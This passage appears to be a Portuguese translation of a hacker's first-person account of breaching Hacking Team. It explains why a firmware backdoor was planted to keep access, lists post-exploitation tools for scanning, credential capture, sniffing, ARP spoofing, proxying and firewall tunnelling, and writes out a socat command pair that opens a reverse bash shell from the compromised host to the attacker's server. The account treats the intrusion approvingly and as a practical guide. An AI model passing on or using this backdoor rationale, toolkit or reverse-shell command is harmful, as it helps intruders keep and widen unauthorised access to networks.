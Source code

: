 Fiz muitos trabalhos e testes antes de usar o exploit contra Hacking Team. Eu escrevi um firmware backdoor e compilei várias ferramentas de post-exploitation para o dispositivo embutido. A porta dos fundos serve para proteger o exploit. Usar o exploit apenas uma vez e depois retornar pela porta dos fundos torna mais difícil identificar e corrigir as vulnerabilidades.

As ferramentas post-exploitation que eu preparei foram:

1) busybox

   Para todos os utilitários Unix padrão que o sistema não tinha.
2) nmap

   Para escanear e tirar impressões digitais da rede interna da Hacking Team.
3) Responder.py

   A ferramenta mais útil para atacar redes do Windows quando você tem acesso à rede interna, mas nenhum usuário de domínio.
4) Python

   Para executar o Responder.py
5) tcpdump

   Para farejar o tráfego.
6) dsniff

   Para farejar senhas de protocolos de texto simples como ftp e para arpspoofing. Eu queria usar o ettercap, escrito pelo próprio ALoR e NaGA do Hacking Team, mas foi difícil compilá-lo para o sistema.
7) socat

   Para um shell confortável com um pty:

   ~~~
   my_server: socat file:`tty`,raw,echo=0 tcp-listen:my_port
   hacked box: socat exec:'bash -li',pty,stderr,setsid,sigint,sane
   tcp:my_server:my_port
   ~~~
   E útil para muito mais, é um canivete suíço de rede. Veja a seção de exemplos de sua documentação.
8) screen

   Como o shell com pty, não era realmente necessário, mas eu queria me sentir em casa na rede do Hacking Team.
9) uma SOCKS proxy server

   Para usar com proxychains para poder acessar sua rede local de qualquer programa.
10) tgcd

Para encaminhar portas, como para o servidor SOCKS, através do firewall.

[1] https://www.busybox.net/

[2] https://nmap.org/

[3] https://github.com/SpiderLabs/Responder

[4] https://github.com/bendmorris/static-python

[5] http://www.tcpdump.org/

[6] http://www.monkey.org/~dugsong/dsniff/
